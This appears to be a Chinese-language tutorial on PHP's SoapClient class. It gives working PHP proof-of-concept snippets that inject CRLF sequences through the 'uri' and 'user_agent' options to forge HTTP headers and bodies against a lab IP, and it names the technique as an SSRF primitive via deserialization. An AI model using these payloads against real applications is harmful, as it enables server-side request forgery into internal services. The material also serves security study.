



# What Is SOAP

soap是webServer的三要素之一(SOAP、WSDL、UDDI)
WSDL（Web Services Description Language）用来描述如何访问具体的接口
UUDI（Universal Description Discovery and Integration）用来管理、分发、查询webServer
SOAP（Simple Object Access Protocol）是连接web服务和客户端的接口

SOAP 是一种简单的基于 XML 的协议，它使应用程序通过 HTTP 来交换信息。

# SoapClient

php需要装有soap扩展，并手动开启

SoapClient类用于创建soap数据报文，与WSDL接口进行交互

> `public  SoapClient::SoapClient ( mixed $wsdl [, array $options ] )`
>
> 第一个参数用来指明是否是wsdl模式
>
> 如果为null，那就是非wsdl模式，反序列化的时候会对第二个参数指明的url进行soap请求
>
> 如果第一个参数为null，则第二个参数必须设置location和uri
>     其中location是将请求发送到的SOAP服务器的URL
>     uri是SOAP服务的目标名称空间
>
> 第二个参数允许设置user_agent选项来设置请求的user-agent头

调用SoapClient不存在的方法，就能触发`__call`方法
当SoapClient的`__call`方法被触发时，会发送HTTP请求

```php
<?php
$a = new SoapClient(null, array('location'=>'http://192.168.145.130:8888',
    'uri'=>'test'));
$b = serialize($a);
echo $b;
$a->x();
```



`O:10:"SoapClient":4:{s:3:"uri";s:4:"test";s:8:"location";s:27:"http://192.168.145.130:8888";s:15:"_stream_context";i:0;s:13:"_soap_version";i:1;}`

# CRLF注入

从上面的请求报文来看，SOAPAction是可控的，就是构造SoapClient对象时传入的`uri`，再跟上`#`+`不存在的方法`

```php
<?php
$a = new SoapClient(null, array('location'=>'http://192.168.145.130:8888',
    'uri'=>"Taco\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 9\r\n\r\ntest=cool\r\n\r\n"));
$b = serialize($a);
echo $b;
$a->x();
```



也可以试试通过User-Agent注入

```php
<?php
$a = new SoapClient(null, array('location'=>'http://192.168.145.130:8888',
    'user_agent'=>"Taco\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 9\r\n\r\ntest=cool\r\n",
    'uri'=>"padding"));
$b = serialize($a);
echo $b;
$a->x();
```



这样HTTP请求报文再被解析时，后面那部分就被完全舍弃掉了，因为我们指定了Content-Length为9
（有点HTTP请求走私那味道）

利用SoapClient可进行SSRF攻击